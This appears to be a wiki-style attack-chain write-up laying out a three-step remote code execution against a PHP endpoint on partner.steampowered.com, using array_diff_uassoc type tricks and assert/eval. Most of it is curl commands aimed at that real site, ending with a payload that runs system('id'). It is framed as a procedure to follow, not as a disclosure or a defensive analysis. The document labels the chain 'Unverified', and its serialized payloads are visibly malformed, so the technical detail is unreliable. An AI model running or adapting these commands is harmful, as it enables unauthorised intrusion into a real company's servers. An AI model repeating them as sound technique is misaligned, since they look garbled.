

# RCE via PHP Parameter Type Manipulation Using array_diff_uassoc on Steam Partner Site

Multi-stage attack chain demonstrating exploitation of a PHP application's insufficient parameter validation on partner.steampowered.com, leading to arbitrary code execution via the assert function and eval.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Advanced |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]] (for request manipulation)

### Target Environment

- PHP-based web application
- Publicly accessible endpoint on partner.steampowered.com
- No specific ports beyond standard HTTP/HTTPS (80/443)

### Initial Access Requirements

- Network access to the target site
- No credentials required (public-facing)
- Basic knowledge of PHP internals and HTTP request crafting

## Detailed Attack Procedures

### Step 1: Identify Insufficient Parameter Validation
procedure: [[procedures/Identify-Insufficient-PHP-Parameter-Validation]]

**Objective**: Detect the PHP endpoint that allows specification of arbitrary function names and parameter types without proper validation.

**Instructions**: Use a browser or proxy tool to inspect the application's behavior when submitting function names and expected parameter types (e.g., array, array, string). Test with benign inputs to confirm the endpoint processes user-supplied function calls.

Execute [[commands/curl-test-php-parameters]] to probe the endpoint:

```bash
curl -X POST https://partner.steampowered.com/endpoint \
  -d "function_name=some_valid_function&param_types=array,array,string&param1=\"test\"&param2=\"test\"" \
  -v
```

**Expected Output**: Server response indicating function execution without errors, confirming lack of validation.

**Success Indicators**:
- Function call succeeds with user-supplied name
- No type enforcement errors for expected arrays/strings

### Step 2: Manipulate Parameter Types
procedure: [[procedures/Manipulate-PHP-Array-Parameters-for-Type-Change]]

**Objective**: Alter the parameter types from (array, array, string) to (string, string) using array_diff_uassoc to enable calling string-accepting functions like assert.

**Instructions**: Craft a request where the function name is set to 'array_diff_uassoc', and manipulate the first two parameters as arrays that, when processed, resolve to strings. This tricks the PHP engine into treating them as strings for the callback.

Execute [[commands/curl-manipulate-php-types]] to send the manipulated request:

```bash
curl -X POST https://partner.steampowered.com/endpoint \
  -d "function_name=array_diff_uassoc&param_types=array,array,string&param1=\"a:1:{s:6:\"0\";s:6:\"assert\"}\" &param2=\"b:1:{s:6:\"0\";s:6:\"assert\"}\" &param3=\"phpinfo();\" \
  -v
```

**Expected Output**: The function processes the parameters as strings, preparing for callback invocation without type mismatch errors.

**Success Indicators**:
- No PHP fatal errors on array-to-string coercion
- Parameters accepted and passed to the underlying callback mechanism

### Step 3: Invoke Assert for Arbitrary Code Execution
procedure: [[procedures/Invoke-Assert-Function-for-Arbitrary-Code-Execution]]

**Objective**: Leverage the type manipulation to call the assert function with a malicious string, triggering eval and executing arbitrary PHP code.

**Instructions**: In the manipulated request, set the callback to 'assert' and provide PHP code as the string parameter. At the time of the vulnerability, assert executed eval on the input.

Execute [[commands/curl-invoke-php-assert]] to trigger RCE:

```bash
curl -X POST https://partner.steampowered.com/endpoint \
  -d "function_name=array_diff_uassoc&param_types=array,array,string&param1=\"a:1:{s:6:\"0\";s:6:\"assert\"}\" &param2=\"assert\"; &param3=\"system('id');\" \
  -v
```

**Expected Output**: Server response containing output from the executed command (e.g., 'uid=33(www-data)'), indicating successful RCE.

**Success Indicators**:
- Arbitrary PHP code executes on the server
- Output from system commands visible in response
- Full server compromise possible for further persistence

## Attack Chain Summary

### Key Achievements

1. Bypassed parameter type validation using array serialization tricks
2. Invoked restricted functions like assert via callback manipulation
3. Achieved remote code execution, compromising the entire server

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Command-Line Interface]]

### MITRE ATT&CK Tactics

- [[Execution]]

---
*Last updated: 2024-10-01T00:00:00Z*
